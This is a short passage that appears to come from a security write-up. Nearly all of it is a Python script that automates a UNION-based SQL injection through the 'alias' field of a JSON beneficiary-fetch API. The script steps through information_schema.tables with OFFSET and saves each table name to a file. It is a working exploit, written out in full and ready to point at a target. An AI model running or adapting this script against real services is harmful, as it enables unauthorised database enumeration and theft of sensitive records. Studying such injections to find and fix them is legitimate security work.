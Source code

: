 here’s a Python script that automates this process and gets all the table names:

```python
import requests
import json

# Target URL and headers
url = "http://localhost/api/beneficiary/fetch"

headers = {
    "Authorization": [JWT TOKEN HERE]
}

offset = 0
output_file = "table_names.txt"

print("[*] Starting extraction loop...\n")

with open(output_file, "w") as f:
    while True:
        payload = {
            "requestBody": {
                "timestamp": "325553",
                "device": {
                    "deviceid": "UHDGGF735SVHFVSX",
                    "os": "ios",
                    "host": "lucideustech.com"
                },
                "data": {
                    "alias": f"' UNION (SELECT table_name, NULL, NULL, NULL FROM information_schema.tables LIMIT 1 OFFSET {offset}) UNION  SELECT NULL, NULL, NULL, NULL FROM beneficiary_details WHERE '1'='"
                }
            }
        }

        response = requests.post(url, headers=headers, json=payload)

        try:
            result = response.json()
        except json.JSONDecodeError:
            print(f"[!] Non-JSON response at offset {offset}")
            break

        status = result.get("status")
        data = result.get("data", {})

        if status == "Failed":
            print(f"\n[-] Stopped at offset {offset}: No more rows or invalid payload.")
            break

        alias = data.get("alias")
        if alias:
            print(f"[+] Offset {offset}: {alias}")
            f.write(alias + "\n")
        else:
            print(f"[!] Offset {offset} returned no alias.")

        offset += 1
```
